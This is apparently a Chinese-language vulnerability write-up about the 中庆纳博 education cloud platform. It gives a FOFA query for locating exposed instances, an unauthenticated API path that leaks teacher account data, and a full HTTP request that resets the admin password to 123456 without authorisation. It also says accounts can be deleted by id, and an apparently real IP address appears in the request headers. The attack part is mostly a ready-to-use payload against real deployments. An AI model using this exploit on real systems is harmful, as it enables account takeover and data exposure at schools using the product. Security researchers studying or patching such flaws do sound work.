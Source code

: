 # 中庆纳博某系统敏感信息泄露+未授权漏洞

## 漏洞描述

北京中庆纳博信息技术有限公司，简称中庆纳博，是有20年历史的中庆集团旗下核心企业，专注于教育信息化的深度应用领域。产品以教育软件为主，核心产品为“中庆教育云”平台。公司成立三年多来，客户已遍及全国各地，“中庆教育云”亦成为业内的知名品牌，该系统api接口存在信息泄露，并且可以进行任意密码重置。

## 漏洞影响

> 中庆纳博

## FOFA

> "中庆纳博"

## 漏洞复现

登录页面如下：

![image-20210709114945839](resource/中庆纳博某系统/image-20210709114945839.png)

通过访问url可以获取账号等敏感信息：

```
/api/TeacherQuery/SearchTeacherInSiteWithPagerRecords
```

![image-20210709115131677](resource/中庆纳博某系统/image-20210709115131677.png)

获取到账号以后，可以进行密码重置，默认密码为123456，payload：

```
POST /api/User/ResetPassword HTTP/1.1
Host: xxxxxxxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: application/json, text/plain, /
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Content-Length: 23
Origin: http://117.36.154.34:8010
DNT: 1
Connection: close
Referer: http://xxxxxxxx/default/admin/user/index{"loginName":"admin"}也可以通过 id删除账户
```

